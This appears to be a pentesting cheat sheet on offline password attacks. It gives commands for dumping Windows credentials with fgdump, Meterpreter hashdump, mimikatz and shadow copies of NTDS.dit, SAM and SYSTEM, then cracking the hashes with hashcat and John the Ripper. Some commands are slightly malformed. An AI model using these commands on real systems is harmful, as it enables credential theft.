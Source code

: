 # Offline Attack

### Extracting Password Hashes from Windows

#### fgdump

Run fgdump to dump local hash

> `fgdump.exe`

#### Meterpreter's Hashdump

> `meterpreter > hashdump`

#### Mimikatz
> `PS C:\temp\mimikatz> .\mimikatz`

>  `mimikatz # privilege::debug`

>  `mimikatz # sekurlsa::logonpasswords`


#### Volume Shadow Copy Services to copy ntds.dit


> `cscript vssown.vbs /start`

> `cscript vssown.vbs /create`

> `copy \\?GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\NTDS\NTDS.dit c:\`

> `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\config\SYSTEM c:\`

> `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\SAM c:\`

### Hash identification

There are generally speaking three pieces of data we can use to identify a hash.

* The length of the hash
* The character set
* Any special characters

We can use hash-identifier to identify the hash algorithm from the hashed password.

`hash-identifier`

### Cracking the Password

#### Hashcat

Put the hashed password file \(test.hash\) and dictionary \(rockyou.txt\) in the same directory and execute the below command:

> `hashcat -m 100 test.hash rockyou.txt`  
> `-m`  
> `-m 100`

#### John the ripper \(\*\)

Use the program "unshadow" which is included in John the Ripper to convert obtained /etc/passwd and /etc/shadow files to a combined file for John \(e.g. crackme.txt below\)

> `unshadow /etc/passwd /etc/shadow >> crackme.txt`

Cracking the file generated by unshadow \(**crackme.txt**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

> `john crackme.txt--wordlist=rockyou.txt`

Convert an encrypted SSH key to a format readable by John

> `ssh2john encrypted-key >> crackme-ssh`

Cracking the file generated by ssh2john \(**crackme-ssh**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

> `john crackme-ssh --wordlist=rockyou.txt`

Crack MD5 hashes that are in a file called hashes using a dictionary/wordlist brute-force

> `john--format=md5 hashes --wordlist=rockyou.txt`

John configuration file

* Linux
  > john.conf
* Windows 
  > john.ini

john.pot file is where the cracking results stored.

> `john --show [password_file]`

john.rec is the recovery file in the event of a crash. To restore cracking

> `john --restore`



